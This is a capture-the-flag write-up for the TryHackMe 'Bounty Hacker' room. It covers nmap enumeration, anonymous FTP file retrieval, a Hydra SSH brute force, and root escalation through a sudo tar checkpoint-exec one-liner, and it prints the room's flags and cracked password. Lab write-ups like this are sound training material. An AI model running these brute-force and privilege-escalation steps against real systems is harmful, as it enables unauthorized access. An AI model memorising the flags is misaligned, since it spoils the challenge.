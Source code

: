 🏴‍☠️ TryHackMe - Bounty Hacker

Platform: TryHackMe
Challenge Type: Boot2Root
Author: Gage Ayala (GageGotya)
Date: April 9, 2025
Difficulty: ⭐ Easy
📘 Overview

The Bounty Hacker room places you in the role of a digital bounty hunter targeting a cybercriminal syndicate.
You’ll enumerate a server, access files via FTP, crack credentials, and escalate to root using a misconfigured sudo permission.

A great beginner-friendly room covering foundational pentesting techniques like recon, password reuse, and privilege escalation.
🌐 Information Gathering

Target IP: Provided by the room
🔎 Nmap Scan

nmap -sC -sV <target-ip>

Ports Discovered:

21/tcp  open  ftp     vsftpd 3.0.3 (anonymous login allowed)  
22/tcp  open  ssh     OpenSSH 7.2.2 (Ubuntu)  
80/tcp  open  http    Apache httpd 2.4.18 (Ubuntu)

📂 FTP Access

ftp <target-ip>
Name: anonymous

📁 Files Discovered

ftp> ls
locks.txt
task.txt
ftp> get locks.txt
ftp> get task.txt

🧾 task.txt

1.) Protect Vicious.  
2.) Plan for Red Eye pickup on the moon.  
-lin

🔑 Username hint: lin
🧾 locks.txt

A custom list of possible passwords — likely reused credentials.
🔓 Gaining Access
🚀 Brute Forcing with Hydra

hydra -l lin -P locks.txt ssh://<target-ip>

✅ Cracked password: RedDr4gonSynd1cat3
🔐 SSH Access

ssh lin@<target-ip>

🏁 User Flag

cat ~/Desktop/user.txt

🧾 Flag:

THM{CR1M3_SyNd1C4T3}

✅ User flag captured!
🪜 Privilege Escalation
🔍 Sudo Permissions

sudo -l

Findings:

User lin may run the following command as root:  
(root) /bin/tar

📦 Exploiting tar for Root Shell

sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

🐚 Root shell obtained!

whoami
root

🏁 Root Flag

cat /root/root.txt

🧾 Flag:

THM{80UN7Y_h4cK3r}

✅ Root flag captured!
💡 Reflections

    Anonymous FTP = easy foot in the door 🛠️

    Password reuse + brute force = cracked SSH in minutes 🚪

    sudo -l is always a goldmine — especially with misconfigured binaries 🥇

    Sometimes all you need is a clever use of tar 😎

📁 Key Files

    locks.txt — password list for brute force

    task.txt — username clue

🧠 Pro Tip

💬 “Enumeration wins engagements. Check every port, every file, and every binary. Root is rarely far.”
